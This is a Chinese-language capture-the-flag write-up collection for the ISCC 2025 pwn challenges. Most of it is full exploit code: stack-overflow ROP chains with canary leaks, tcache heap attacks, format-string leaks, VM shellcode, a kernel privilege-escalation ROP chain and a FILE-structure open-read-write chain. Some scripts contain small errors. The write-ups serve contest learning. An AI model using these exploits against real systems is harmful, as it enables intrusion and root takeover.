# 2025ISCC练武区域赛和决赛pwn以及擂台pwn合集-先知社区

> **来源**: https://xz.aliyun.com/news/18026  
> **文章ID**: 18026

---

# ISCCpwn合集

昨天也是刚打完ISCC,pwn还是有很多意义的,怎么说呢,wp发下来给大家看看吧,希望能学到更多的知识,这一次ISCC总体难度适中,相比去年难度稍有提升,主要是出内核题比较难,此外代码量和题量明显提升,分析要耗费大量时间,vm和堆中规中矩都是比较偏基础的知识,此外感觉自己实力还是有所欠缺,希望明年能进前二十

## 练武区域pwn

### genius

1.

  
查一下保护看一下ida  
发现直接溢出就好





Exp

from pwn import \*

context.log\_level = 'debug'

host = "101.200.155.151"  
port = 12000  
conn = remote(host, port)

conn.recvuntil(b"you are a genius,yes or no?")  
conn.sendline(b"no")  
conn.recvuntil(b"Sir, don't be so modest.")  
conn.sendline(b"thanks")

conn.recvuntil(b"what you want in init")  
payload\_length = 0x18  
conn.sendline(cyclic(payload\_length))

conn.recvuntil(b"\x0a")  
stack\_canary = u64(conn.recv(7).ljust(8, b'\x00'))  
stack\_canary = (stack\_canary << 8) | 0x00  
log.info("Leaked stack canary: " + hex(stack\_canary))

ret\_gadget = 0x000000000040101a  
pop\_rdi\_gadget = 0x00000000004013f3  
bin\_sh\_str\_addr = 0x402004  
system\_plt\_addr = 0x401050

rop\_payload = (  
 cyclic(payload\_length) +  
 p64(stack\_canary) +  
 p64(0x0) +  
 p64(ret\_gadget) +  
 p64(pop\_rdi\_gadget) +  
 p64(bin\_sh\_str\_addr) +  
 p64(system\_plt\_addr)  
)

conn.sendline(rop\_payload)  
conn.interactive()

### mutsumi

1. 一个简单的堆题,进去ida
2.   
   发现了一个uaf,直接泄露libc  
   然后就是那套tcache的打法  
   用tcachebin的fastbin attack来覆盖hook  
   测试了一下直接拿到flag

exp  
from pwn import\*

context(arch="amd64", os="linux", log\_level="debug")

libc=ELF('./program.so')

io = remote('101.200.155.151',12300)

#io = process('./pwn')

​

​

def add(index,size):

io.sendlineafter(b'choice:\
',b'1')

io.sendlineafter(b'index:\
',str(index).encode())

io.sendlineafter(b'size:\
',str(size).encode())

def delete(index):

io.sendlineafter(b'choice:\
',b'2')

io.sendlineafter(b'index:\
',str(index).encode())

def edit(index,length,content):

io.sendlineafter(b'choice:\
',b'3')

io.sendlineafter(b'index',str(index).encode())

io.sendlineafter(b'length:\
',str(length).encode())

io.sendafter(b'content:\
',content)

def show(index):

io.sendlineafter(b'choice:\
',b'4')

io.sendlineafter(b'index:\
',str(index).encode())

add(0, 0x500)

add(1, 0x18)

delete(0)

show(0)

​

libc\_base = u64(io.recv(6).ljust(8, b'\x00'))-0x1ecbe0

​

log.info('libc\_base:'+hex(libc\_base))

add(2, 0x500)

​

add(3, 0x70)

add(4, 0x70)

delete(3)

delete(4)

edit(4,0x70,p64(libc\_base+libc.symbols['\_\_free\_hook']))

add(5, 0x70)

edit(5,0x70,b'/bin/sh\x00')

add(6, 0x70)

edit(6,0x70,p64(libc\_base+libc.sym['system']))

delete(5)

​

​

​

io.interactive()

### Fufu

check一下



1. 一个简单的vm的题里面有一个跳转进去直接看寄存器,然后构造shellcode  
   shellcode\_fragments = [  
    b"\x34\x3b\x90\x90",  
    b"\x66\xbb\x73\x68",  
    b"\x48\xc1\xe3\x10",  
    b"\x66\xbb\x6e\x2f",  
    b"\x48\xc1\xe3\x10",  
    b"\x66\xbb\x62\x69",  
    b"\x48\xc1\xe3\x08",  
    b"\x66\xbb\x2f\x62",  
    b"\x53\x90\x90\x90",  
    b"\x89\xe7\x90\x90",  
    b"\x0f\x05\x90\x90",  
   ]  
   字节码如上,在此构造的寄存器下可以直接调用shellcode  
   

Exp  
from pwn import \*

context(log\_level='debug', arch='amd64')

conn = process("./attachment-33")

conn = remote("101.200.155.151", 12800)

roles = {  
 0: b'tomorin',  
 1: b'rikki',  
 2: b'anon',  
 3: b'soyorin'  
}

def send\_instruction(role, data=b'saki', nptr=b'to'):  
 conn.sendline(data + b',ido')  
 conn.sendline(nptr)  
 if nptr == b'to':  
 conn.sendline(role)

def format\_int(value\_bytes):  
 return str(int.from\_bytes(value\_bytes, byteorder='little'))

shellcode\_fragments = [  
 b"\x34\x3b\x90\x90",  
 b"\x66\xbb\x73\x68",  
 b"\x48\xc1\xe3\x10",  
 b"\x66\xbb\x6e\x2f",  
 b"\x48\xc1\xe3\x10",  
 b"\x66\xbb\x62\x69",  
 b"\x48\xc1\xe3\x08",  
 b"\x66\xbb\x2f\x62",  
 b"\x53\x90\x90\x90",  
 b"\x89\xe7\x90\x90",  
 b"\x0f\x05\x90\x90",  
]

for fragment in shellcode\_fragments:  
 send\_instruction(roles[0], nptr=b"1")  
 send\_instruction(roles[0], nptr=format\_int(fragment))

conn.sendline(b'saki,stop')  
conn.interactive()

### program

这个题比较常规的格式化字符串漏洞  
那就分别泄露需要的东西就好

```
from pwn import *
context.log_level = 'debug'
p = process('./attachment-32')
p.recvuntil(b'Furina: Your choice? >> ')
p.sendline(b'1')
p.recvuntil(b'Furina: Time is limited! >> ')
p.sendline(b'2147483648')
p.recvuntil(b'Furina: Present your evidence! >> ')
p.sendline(b"%17$p")
canary = int(p.recv(18).strip(), 16)
print(hex(canary))
p.recvuntil(b'hcy want to eat chicken! >> ')
p.sendline(b'1')
p.recvuntil(b'Furina: Your choice? >> ')
p.sendline(b'1')
p.recvuntil(b'Furina: Time is limited! >> ')
p.sendline(b'2147483648')
p.recvuntil(b'Furina: Present your evidence! >> ')
p.sendline(b"%25$p")
main = int(p.recv(14).strip(), 16)
pie = main - 0x1338
print(hex(pie))
p.recvuntil(b'hcy want to eat chicken! >> ')
p.sendline(b'1')
ret = 0x000000000000101a + pie
pop_rdi = 0x000000000000132f + pie
puts_got = 0x3fa0 + pie
puts_plt = 0x1030 + pie
p.recvuntil(b'Furina: Your choice? >> ')
p.sendline(b'2')
p.recvuntil(b'Furina: The trial is adjourned')
rop = cyclic(0x48) + p64(canary) + p64(0x0) +p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
p.sendline(rop)
leak = p.recv(1)
puts = int.from_bytes(p.recv(6).ljust(8, b'\x00'), 'little')
print(hex(puts))
libc_base = puts - 0x080e50
print(hex(libc_base))
bin_sh = 0x1d8678 + libc_base
system = 0x050d70 + libc_base
p.recvuntil(b'Furina: Your choice? >> ')
p.sendline(b'2')
p.recvuntil(b'Furina: The trial is adjourned')
rop = cyclic(0x48) + p64(canary) + p64(ret)*2 +p64(pop_rdi) + p64(bin_sh) + p64(system)
p.sendline(rop)
p.interactive()
```

## 练武决赛pwn

### Dilemma

1. 查一下保护看一下ida



2. 就是一个很简单的格式化字符串漏洞,先泄露canary在泄露libc此时查看stack直接泄露libs\_start\_main就ok  
   本地试了一下35版本的ubuntu一下就通了  
   但是需要注意开了沙箱,需要启动一个orw的调用



Exp  
from pwn import \*  
from ctypes import cdll  
import time

context(os='linux', arch='amd64', log\_level='debug')  
p = remote('101.200.155.151',12500)  
elf = ELF('./attachment-42')  
libc = ELF('/lib/x86\_64-linux-gnu/libc.so.6')

def dbg():  
 gdb.attach(r,'b \*$rebase(0xb37)')  
 pause()

pop\_rdi = 0x40119a   
ret = 0x40101a  
bss = 0x404000 + 0x900  
pop\_rsi\_r15 = 0x000000000040119c

p.recvuntil("go?\
")  
p.sendline("1")  
p.recvuntil("password:\
")  
payload = b'%39$p%11$p'  
p.sendline(payload)

p.recvuntil("0x")  
libc\_start = int(p.recv(12),16) - 128  
libc\_base = libc\_start - libc.sym['\_\_libc\_start\_main']

p.recvuntil("0x")  
canary = int(p.recv(16),16)  
success('canary:' +hex(canary))

p.recvuntil("password:")  
p.send(b"a"\*8)  
p.recvuntil("go?\
")  
p.sendline("2")  
p.recvuntil("about\
")

payload = b'a'\*0x28 + p64(canary) + p64(bss+0x30) + p64(0x4011C9)  
p.send(payload)  
p.recvuntil("a"\*0x28)

pop\_rdx\_r12 = 0x11f2e7 + libc\_base  
open = libc\_base + libc.sym['open']  
read = libc\_base + libc.sym['read']  
write = libc\_base + libc.sym['write']

pay = b'./flag.txt'.ljust(0x28,b'\x00')   
pay += p64(canary) + p64(0) + p64(pop\_rdi) + p64(bss)  
pay += p64(pop\_rsi\_r15) + p64(0) + p64(0) + p64(open)  
pay += p64(pop\_rdi) + p64(3) + p64(pop\_rsi\_r15) + p64(bss+0x200) + p64(0)  
pay += p64(pop\_rdx\_r12) + p64(0x50) + p64(0) + p64(read)  
pay += p64(pop\_rdi) + p64(1) + p64(pop\_rsi\_r15) + p64(bss+0x200) + p64(0)  
pay += p64(pop\_rdx\_r12) + p64(0x50) + p64(0) + p64(write)

p.send(pay)  
p.interactive()

### easybee

拿到一看是个内核题,最近刚好也在学内核提权的,那就直接来练练手

本来没啥心情做了的,结果刚泄露完canary就一百多解了我也是服了

, ,大概过程如下

漏洞利用步骤精要

符号地址获取  
通过解析/tmp/kallsyms获取commit\_creds和prepare\_kernel\_cred的地址。由于未开启KPTI，内核地址可直接访问。

Canary泄露  
利用core\_read通过设置偏移量0x40读取内核栈中的Canary值。

ROP链构造  
构造提权链：prepare\_kernel\_cred(0) -> commit\_creds(cred) -> 返回用户态执行shell。

触发漏洞  
通过core\_copy\_func的整数溢出（传入0xffffffffffff1000转换为无符号短整型0x1000）实现栈溢出，执行ROP链。

​

​

首先就是符号解析  
void get\_function\_address() {

​FILE \*sym\_table = fopen("/tmp/kallsyms", "r");

​if (!sym\_table) {

​perror("\033[31m[!] Failed to open /tmp/kallsyms");

​exit(EXIT\_FAILURE);

​}

​

​unsigned long addr;

​char type[16], name[256];

​while (fscanf(sym\_table, "%lx %s %s", &addr, type, name) == 3) {

​if (strcmp(name, "commit\_creds") == 0) commit\_creds = addr;

​if (strcmp(name, "prepare\_kernel\_cred") == 0) prepare\_kernel\_cred = addr;

​if (commit\_creds && prepare\_kernel\_cred) break; // 提前退出循环

​}

​fclose(sym\_table); // 关闭文件

​

​if (!commit\_creds || !prepare\_kernel\_cred) {

​fprintf(stderr, "\033[31m[!] Failed to find symbol addresses\
");

​exit(EXIT\_FAILURE);

​}

}

使用 core\_read 函数获取 canary 使用 core\_write 函数写入 ROP 到 name使用 core\_copy\_func 函数在栈上追加 ROP 由于本内核模块启用了 kaslr 地址随机化保护机制，因此需要与计算出一个偏移量，题目中给出的 vmlinux 的 commit\_creds 函数地址为 FFFFFFFF8109C8E0相减即得偏移量

Gadget偏移计算：确保所有gadget地址通过base\_offset正确调整（base\_offset = commit\_creds - commit\_creds\_base）

栈平衡：call rdx后需通过pop rcx清理栈，避免ROP链断裂

返回用户态：swapgs和iretq需按顺序执行，并正确恢复用户态寄存器

这里的rop也需要注意

size\_t ROP[50] = {0};

int idx = 0;

​

填充Canary

for (int i = 0; i < 10; i++) ROP[idx++] = canary;

​

提权链

ROP[idx++] = pop\_rdi\_ret + base\_offset; // pop rdi; ret

ROP[idx++] = 0;  // rdi = 0

ROP[idx++] = prepare\_kernel\_cred; // rax = prepare\_kernel\_cred(0)

ROP[idx++] = pop\_rdx\_ret + base\_offset; // pop rdx; ret

ROP[idx++] = pop\_rcx\_ret + base\_offset; // pop rcx; ret (清理call指令压栈的返回地址)

ROP[idx++] = mov\_rdi\_rax\_call\_rdx + base\_offset; // rdi = rax; call rdx

ROP[idx++] = commit\_creds; // commit\_creds(rdi)

ROP[idx++] = swapgs\_popfq\_ret + base\_offset; // swapgs; popfq; ret

ROP[idx++] = 0; // dummy for popfq

ROP[idx++] = iretq\_ret + base\_offset; // iretq

ROP[idx++] = (size\_t)shell; // 返回地址: shell()

ROP[idx++] = user\_cs; // CS

ROP[idx++] = user\_rflags; // RFLAGS

ROP[idx++] = user\_sp; // RSP

ROP[idx++] = user\_ss; // SS

此外我们找到了一个漏洞 触发core\_copy\_func的整数溢出

传入nbytes = 0xffffffffffff1000 -> 转换为unsigned short为0x1000 (>0x3F)

core\_copy\_func(0xffffffffffff0000 | 0x1000);

进展取得重大突破

然后我们继续看

**get\_function\_address()**解析**commit\_creds**和**prepare\_kernel\_cred**。这一步处理好之后准备泄露Canary继续打rop

​

然后最后都处理完之后我们可以直接返回用户态执行shelll

Exp

#include <stdio.h>

#include <stdlib.h>

#include <string.h>

#include <unistd.h>

#include <fcntl.h>

#include <ctype.h>

#include <sys/types.h>

#include <sys/ioctl.h>

​

unsigned long long commit\_creds = 0, prepare\_kernel\_cred = 0;

const unsigned long long commit\_creds\_base = 0xFFFFFFFF8109C8E0;

const unsigned long long swapgs\_popfq\_ret = 0xffffffff81a012da;

const unsigned long long movrdirax\_callrdx = 0xffffffff8101aa6a;

const unsigned long long poprdx\_ret = 0xffffffff810a0f49;

const unsigned long long poprdi\_ret = 0xffffffff81000b2f;

const unsigned long long poprcx\_ret = 0xffffffff81021e53;

const unsigned long long iretq = 0xFFFFFFFF81A00987;

​

int fd = 0;

size\_t user\_cs, user\_ss, user\_rflags, user\_sp;

​

void saveStatus() {

​\_\_asm\_\_(

​"mov user\_cs, cs;"

​"mov user\_ss, ss;"

​"mov user\_sp, rsp;"

​"pushf;"

​"pop user\_rflags;"

​);

​puts("\033[34m\033[1m[\*] Status has been saved.\033[0m");

}

​

void core\_read(char\* buf) {

​ioctl(fd, 0x6677889B, buf);

}

​

void change\_off(int off) {

​ioctl(fd, 0x6677889C, off);

}

​

void core\_copy\_func(unsigned long long nbytes) {

​ioctl(fd, 0x6677889A, nbytes);

}

​

void get\_function\_address() {

​FILE\* sym\_table = fopen("/tmp/kallsyms", "r");

​if (sym\_table == NULL) {

​printf("\033[31m\033[1m[x] Error: Cannot open file \"/tmp/kallsyms\"\
\033[0m");

​exit(1);

​}

​

​unsigned long long addr = 0;

​char type[0x10];

​char func\_name[0x100];

​

​while (fscanf(sym\_table, "%llx%s%s", &addr, type, func\_name)) {

​if (commit\_creds && prepare\_kernel\_cred) return;

​

​if (!strcmp(func\_name, "commit\_creds")) {

​commit\_creds = addr;

​printf("\033[32m\033[1m[+] Note: Address of function \"commit\_creds\" found: \033[0m%#llx\
", commit\_creds);

​} else if (!strcmp(func\_name, "prepare\_kernel\_cred")) {

​prepare\_kernel\_cred = addr;

​printf("\033[32m\033[1m[+] Note: Address of function \"prepare\_kernel\_cred\" found: \033[0m%#llx\
", prepare\_kernel\_cred);

​}

​}

}

​

void print\_binary(char\* buf, int length) {

​int index = 0;

​char output\_buffer[80];

​memset(output\_buffer, '\0', 80);

​memset(output\_buffer, ' ', 0x10);

​

​for (int i = 0; i < (length % 16 == 0 ? length / 16 : length / 16 + 1); i++) {

​char temp\_buffer[0x10];

​memset(temp\_buffer, '\0', 0x10);

​sprintf(temp\_buffer, "%#5x", index);

​strcpy(output\_buffer, temp\_buffer);

​output\_buffer[5] = ' ';

​output\_buffer[6] = '|';

​output\_buffer[7] = ' ';

​

​for (int j = 0; j < 16; j++) {

​if (index + j >= length) {

​sprintf(output\_buffer + 8 + 3 \* j, " ");

​} else {

​sprintf(output\_buffer + 8 + 3 \* j, "%02x ", ((int)buf[index + j]) & 0xFF);

​if (!isprint(buf[index + j])) {

​output\_buffer[58 + j] = '.';

​} else {

​output\_buffer[58 + j] = buf[index + j];

​}

​}

​}

​

​output\_buffer[55] = ' ';

​output\_buffer[56] = '|';

​output\_buffer[57] = ' ';

​printf("%s\
", output\_buffer);

​memset(output\_buffer + 58, '\0', 16);

​index += 16;

​}

}

​

void shell() {

​if (getuid()) {

​printf("\033[31m\033[1m[x] Error: Failed to get root, exiting......\
\033[0m");

​exit(1);

​}

​printf("\033[32m\033[1m[+] Getting the root......\033[0m\
");

​system("/bin/sh");

​exit(0);

}

​

int main() {

​saveStatus();

​

​fd = open("/proc/core", 2);

​if (!fd) {

​printf("\033[31m\033[1m[x] Error: Cannot open process \"core\"\
\033[0m");

​exit(1);

​}

​

​char buffer[0x100] = {0};

​get\_function\_address();

​

​unsigned long long base\_offset = commit\_creds - commit\_creds\_base;

​printf("\033[34m\033[1m[\*] KASLR offset: \033[0m%#llx\
", base\_offset);

​

​change\_off(0x40);

​core\_read(buffer);

​

​printf("\033[34m\033[1m[\*] Contents in buffer here:\033[0m\
");

​print\_binary(buffer, 0x40);

​

​unsigned long long canary = ((size\_t\*)&buffer)[0];

​printf("\033[35m\033[1m[\*] The value of canary is the first 8 bytes: \033[0m%#llx\
", canary);

​

​size\_t ROP[100] = {0};

​memset(ROP, 0, 800);

​int idx = 0;

​

​for (int i = 0; i < 10; i++) ROP[idx++] = canary;

​

​ROP[idx++] = poprdi\_ret + base\_offset;

​ROP[idx++] = 0;

​ROP[idx++] = prepare\_kernel\_cred;

​ROP[idx++] = poprdx\_ret + base\_offset;

​ROP[idx++] = poprcx\_ret + base\_offset;

​ROP[idx++] = movrdirax\_callrdx + base\_offset;

​ROP[idx++] = commit\_creds;

​ROP[idx++] = swapgs\_popfq\_ret + base\_offset;

​ROP[idx++] = 0;

​ROP[idx++] = iretq + base\_offset;

​ROP[idx++] = (unsigned long long)shell;

​ROP[idx++] = user\_cs;

​ROP[idx++] = user\_rflags;

​ROP[idx++] = user\_sp;

​ROP[idx++] = user\_ss;

​

​printf("\033[34m\033[1m[\*] Our rop chain looks like: \033[0m\
");

​print\_binary((char\*)ROP, 0x100);

​

​write(fd, ROP, 0x800);

​core\_copy\_func(0xffffffffffff1000);

​

​return 0;

}

​

## 擂台pwn

### 命令执行器



看了半天研究了几个小时才看出来是个树  
我猜你不会想做这个pwn题,我以为是很烦躁的逆向算法求解,后来却发现一个简单的漏洞点

​

由于size的大小存在符号溢出,我们就正常去修改为极大数,这样的话就可以加载极大地址也就是往低地址负向写入,然后我们就是正常填tacche实现一个任意地址分配,  
但是打到现在并没有什么用

还需要一个泄露libc的地方或者是其他的后门,此时我 们观察ida



这里也是看到提示说hash的问题那么我们继续分析函数

​

发现一个可控的时间数种子,传入该时刻的seed即可实现hash可控这样的话我们直接一个爆破就能算出libc基地址,在反过来用特征值来演算是否爆破准确  


当然这里要注意libc 的版本,所幸也是题目给出了libc省了不少力气  


这样的话我们直接打rop

但是打的过程中我发现检测开了沙箱,所以努力都白费了  
这里推荐一个工具seccomp-tools,我们可以做题前先使用这个沙箱检测命令来查看被禁用的函数都有那些  
seccomp-tools dump ./pwn2 结果如下我们发现开启了沙箱

​

当然这里要注意ld的链接库必须patchelf上不然识别不了文件会出现如下报错



然后看到沙箱开启的话我们就直接一个orw接收flag就ok

当然妈的还有一个事就是这个要打只能打io调用链,所以io必须也得学

这里要注意虚表和地址的问题,不能过大  
Exp

from pwn import \*

from ctypes import \*

import time

​

context.update(arch='amd64', os='linux', log\_level='DEBUG')

context.terminal=['qterminal','-e']

libc = ELF("./libc.so.6", checksec=False)

libc\_RAND = cdll.LoadLibrary('libc.so.6')

xxx=0

​

def add(size,payload):

​global xxx

​if isinstance(payload, str):

​payload = payload.encode()

​cmd=b'add('+str(size).encode()+b')'+b':'+payload+b';'

​p.sendlineafter(b'>>',cmd)

​xxx+=2\*5

​

def delete(idx):

​global xxx

​cmd='delete('+str(idx)+');'

​p.sendlineafter(b'>>', cmd)

​xxx+=2\*3

​

def myencode(hash,list):

​global xxx

​randA=list[xxx-4]+(list[xxx-3]<<32)

​randB=list[xxx-2]+(list[xxx-1]<<32)

​hash^=randB & 0xF84075ECD213097F

​hash^=randA & 0x1145140478

​return hash

​

def exp():

​global xxx

​xxx=0

​t\_int = int(time.time())

​offsets = [0, -1, +1, +2, -2,+3,-3]

​

​arrays = []

​for off in offsets:

​gr = libc\_RAND.srand(t\_int + off)

​arrays.append([libc\_RAND.rand() for \_ in range(100)])

​a, b, c, d, e, f, g = arrays

​

​add(0x500,b'AAAA')

​add(0x500,b'BBBD')

​delete(0)

​add(0x500,b'fuck')

​p.recvuntil(b'hash: ')

​hash\_or=int(p.recvuntil(b'.')[:-1],10)

​arrays = [a, b, c, d, e, f, g]

​hit = False

​for lst in arrays:

​libcaddr = myencode(hash\_or, lst)

​high4 = (libcaddr >> 44) & 0xF

​low12 = libcaddr & 0xFFF

​if high4 == 7 and low12 == 0xdff:

​mask = ((1 << 36) - 1) << 12

​libcaddr&=mask

​hit = True

​break

​if not hit:

​p.close()

​mask = ((1 << 64) - 1) ^ ((1 << 17) | (1 << 18))

​libcaddr &= mask

​libcbase=libcaddr-0x21A000

​delete(0)

​delete(1)

​add(0x500,b'fuck')

​add(0x3f0-0x40,'fuck this')

​delete(1)

​delete(0)

​libc.address = libcbase

​stdout\_addr = libc.symbols['\_IO\_2\_1\_stdout\_']

​payload=b’BBBB'.ljust(0x590-0x100-0xa,b'A')+p64(stdout\_addr-0x20)\*30

​add(2\*\*64-0x40,payload)

​sleep(0.2)

​pop\_rax=libc.address+0x0000000000045eb0

​pop\_rdi=libc.address+0x000000000002a3e5

​pop\_rsi=libc.address+0x000000000002be51

​pop\_rdx\_r12=libc.address+0x000000000011f2e7

​syscall=libc.address+0xEA549

​system\_addr=libc.symbols['setcontext']+61

​IO\_wfile\_jumps=libc.symbols['\_IO\_wfile\_jumps']

​call\_addr = system\_addr

​fake\_io\_addr = stdout\_addr

​fake\_IO\_FILE = b'/bin/sh\x00'

​fake\_IO\_FILE += p64(0)

​fake\_IO\_FILE += p64(system\_addr)

​fake\_IO\_FILE += p64(0)

​fake\_IO\_FILE += p64(fake\_io\_addr+0xe8-0xa0)

​fake\_IO\_FILE += p64(0)

​fake\_IO\_FILE += p64(0)

​fake\_IO\_FILE += p64(0)

​fake\_IO\_FILE += p64(1)

​fake\_IO\_FILE += p64(2)

​fake\_IO\_FILE += p64(fake\_io\_addr + 0xB0)

​fake\_IO\_FILE += p64(call\_addr)

​fake\_IO\_FILE = fake\_IO\_FILE.ljust(0x68, b"\x00")

​fake\_IO\_FILE = fake\_IO\_FILE.ljust(0x88, b"\x00")

​fake\_IO\_FILE += p64(stdout\_addr + 0xf00)

​fake\_IO\_FILE = fake\_IO\_FILE.ljust(0xA0, b"\x00")

​fake\_IO\_FILE += p64(fake\_io\_addr)

​fake\_IO\_FILE = fake\_IO\_FILE.ljust(0xC0, b"\x00")

​fake\_IO\_FILE += p64(0)

​fake\_IO\_FILE = fake\_IO\_FILE.ljust(0xD8, b"\x00")

​fake\_IO\_FILE += p64(IO\_wfile\_jumps + 0x10)

​fake\_IO\_FILE = fake\_IO\_FILE.ljust(0xE0, b"\x00")

​fake\_IO\_FILE += p64(fake\_io\_addr-0X8)

​fake\_IO\_FILE +=p64(fake\_io\_addr+0xf0+0x10)

​fake\_IO\_FILE +=p64(libc.address+0x0000000000035732+1)\*2

​fake\_IO\_FILE +=p64(pop\_rax)

​fake\_IO\_FILE +=p64(2)

​fake\_IO\_FILE +=p64(pop\_rdi)

​fake\_IO\_FILE +=p64(fake\_io\_addr+0x200)

​fake\_IO\_FILE +=p64(pop\_rsi)

​fake\_IO\_FILE +=p64(0)

​fake\_IO\_FILE +=p64(pop\_rdx\_r12)

​fake\_IO\_FILE +=p64(0)\*2

​fake\_IO\_FILE +=p64(syscall)

​fake\_IO\_FILE +=p64(pop\_rax)

​fake\_IO\_FILE +=p64(0)

​fake\_IO\_FILE +=p64(pop\_rdi)

​fake\_IO\_FILE +=p64(3)

​fake\_IO\_FILE +=p64(pop\_rsi)

​fake\_IO\_FILE +=p64(fake\_io\_addr+0x200)

​fake\_IO\_FILE +=p64(pop\_rdx\_r12)

​fake\_IO\_FILE +=p64(0x100)\*2

​fake\_IO\_FILE +=p64(syscall)

​fake\_IO\_FILE +=p64(pop\_rax)

​fake\_IO\_FILE +=p64(1)

​fake\_IO\_FILE +=p64(pop\_rdi)

​fake\_IO\_FILE +=p64(1)

​fake\_IO\_FILE +=p64(pop\_rsi)

​fake\_IO\_FILE +=p64(fake\_io\_addr+0x200-0x8)

​fake\_IO\_FILE +=p64(pop\_rdx\_r12)

​fake\_IO\_FILE +=p64(0x100)\*2

​fake\_IO\_FILE +=p64(syscall)

​fake\_IO\_FILE = fake\_IO\_FILE.ljust(0x200-0x8, b"\x00")

​fake\_IO\_FILE +=b'AAAABBBD'

​fake\_IO\_FILE +=b'/flag\x00'

​add(0x3f0-0x40,fake\_IO\_FILE)

​

debug=1

while(1):

​try:

​if debug:

​p = process('./pwn')

​else:

​p = remote('101.200.155.151',25000)

​exp()

​sleep(0.1)

​res=p.recvuntil('AAAABBBD',timeout=0.5)

​if res:

​p.interactive()

​else:

​p.close()

​except:

p.close()f

### mini pwn





wp另一个师傅写的

### book\_manager

1. 检查checksec一下



进去一看就是一个图书管理系统

发现有一处调用的call无法反汇编,改一下进去查看



现在发现了几个漏洞点格式化字符串泄露canary等信息  
然后发现栈溢出直接构造特殊的rop链进行攻击  
在执行display函数传入等待接收flag就ok  
当然最后不要忘记flag 的地址要穿入参数才可以



此时要写一个等待接收的反馈,不然总是会报错并且打不通  
怀疑是接收有点问题

这个也是另一个师傅打的,膜拜大佬  
Exp  
from pwn import \*

context.arch = 'amd64'  
context.os = 'linux'  
context.log\_level = 'info'

io = remote('101.200.155.151', 23000)  
flag\_addr = 0x4e9b2d  
load\_func = 0x40340C  
pop\_rdi\_ret = 0x0000000000401a42  
ret = 0x0000000000401a43

def add\_book(title, author, publisher):  
 io.sendlineafter(b'>', b'1')  
 io.sendafter(b'Title', title)  
 io.sendafter(b'Author', author)  
 io.sendafter(b'Publisher', publisher)

io.sendlineafter(b'>', b'4')  
io.sendlineafter(b'choose', b'2')  
io.sendafter(b'name', b'a' \* 0x28)  
io.recvuntil(b'a' \* 0x28 + b'\
')

canary\_data = io.recv(7)  
canary = u64(canary\_data.ljust(8, b'\x00')) << 8

payload = p64(canary) + p64(0) + p64(ret)  
payload += p64(pop\_rdi\_ret) + p64(flag\_addr) + p64(load\_func)

for \_ in range(8):  
 add\_book(b'a'\*50, b'a'\*30, b'a'\*40)

add\_book(b'a'\*12, b'a', b'a'\*3)  
add\_book(payload, b'b'\*20 + b'\x00/flag\x00\x00\x00\x00', b'c'\*40)

io.sendlineafter(b'>', b'6')  
io.sendlineafter(b'>', b'5')

flag = io.recvline()  
io.interactive()

### 迷途之子





这个题也是另一个师傅打的,wp没保存

### vm\_pwn



检查checksec一下

很经典的一道vm的题,那么首先就是逆向出来他的指令集  
  
既然找到opcode的话我们就老老实实的逆出来指令集就ok]



很明显的push指令

  
def一个函数  
很明显的pop指令

4-8的就很常规一眼能看出俩

1-4也一样

def push(reg\_index):

​return struct.pack("<bB", 4, reg\_index)

​

def pop(reg\_index):

​return struct.pack("<bB", 5, reg\_index)

​

def func\_call(reg\_index):

​return struct.pack("<bB", 6, reg\_index)

​

def add\_imm(reg, imm):

​return struct.pack("<bbQ", 0xA, reg, imm)

​

def sub\_imm(reg, imm):

​return struct.pack("<bbQ", 0xB, reg, imm)

​

def exit\_vm():

​return struct.pack("b", 8)

​

没什么好说的简单的vm

Exp

from pwn import \*

import struct

​

def debug(c=0):

​if c:

​gdb.attach(p, c)

​else:

​gdb.attach(p)

​

def get\_addr():

​return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))

​

def get\_sb():

​return libc.sym['system'], next(libc.search(b'/bin/sh\x00'))

​

​

context(arch="amd64", os="linux", log\_level="debug")

​

file\_path = "./pwn"

libc\_path = "./libc.so.6"

elf = ELF(file\_path, checksec=False)

libc = ELF(libc\_path, checksec=False)

p = remote("101.200.155.151", 20000)

​

def load\_imm(reg, imm):

​return struct.pack("<bbQ", 0, reg, imm)

​

def load\_indirect(src\_reg, dst\_reg):

​return struct.pack("<bbb", 1, src\_reg, dst\_reg)

​

def store\_indirect(src\_reg, dst\_reg):

​return struct.pack("<bb", 2, src\_reg) + struct.pack("b", dst\_reg)

​

def mov\_reg(src\_reg, dst\_reg):

​return struct.pack("<bb", 3, src\_reg) + struct.pack("b", dst\_reg)

​

def push(reg\_index):

​return struct.pack("<bB", 4, reg\_index)

​

def pop(reg\_index):

​return struct.pack("<bB", 5, reg\_index)

​

def func\_call(reg\_index):

​return struct.pack("<bB", 6, reg\_index)

​

def add\_imm(reg, imm):

​return struct.pack("<bbQ", 0xA, reg, imm)

​

def sub\_imm(reg, imm):

​return struct.pack("<bbQ", 0xB, reg, imm)

​

def exit\_vm():

​return struct.pack("b", 8)

​

payload = load\_indirect(-11, 1)

payload += sub\_imm(1, 0x50)

payload += load\_indirect(1, 0)

payload += sub\_imm(0, libc.sym["malloc"])

payload += mov\_reg(0, 2)

payload += add\_imm(2, libc.sym["system"])

payload += add\_imm(0, next(libc.search(b"/bin/sh\x00")))

payload += func\_call(2)

payload += exit\_vm()

​

sla(b"bytecode: ", payload)

​

​

### call

这个题的话很简单,wp是另一个师傅写的我就不放了

### 复读机

这道题我没做出来,不知道该怎么打,随便看了一下思路大家随便看看  


首先还是ida看一下

先分析case的作用

switch (\*v24) {

​case 1: 输入字符串到 v27，并调用 sub\_401E10();

​case 2: 调用 sub\_402140();

​case 3: 获取一个整数并传给 sub\_401E70();

​case 4: 获取两个整数并传给 sub\_401F40();

​case 5: 调用 sub\_402000();

​case 6: 退出；

​default: 输出错误；

}

网上说  
初步检查的话觉得这个函数

sub\_40CA00("%d", \*v22, v5, v6, v7, v8, v22[0]);

可能存在漏洞没有输入的检查存在溢出  
v20 = j\_ifunc\_42B6A0(v23, "\
");

\*(v27 + v20) = 0;  
这个v20变量可能存在一些问题可能是出现数组越界写的漏洞  
看到这里我甚至都怀疑这是一道awd的题目,最近在出awd的pwn题,总感觉有些相似之处  
v6 = \*(off\_4EC7D0 + 136);

if ( \*(v6 + 8) != fs:[0x10] ) {

​if ( \_InterlockedCompareExchange(v6, 1, 0) )

​sub\_423EB0(v6);

​...

}  
然后就是这个函数的死锁问题,对程序的处置可能会产生操作系统级别的错误,会产生漏洞  
当然这只是初步分析,那么继续检查我们发现

sub\_40CA00("%d", &v26, ...);

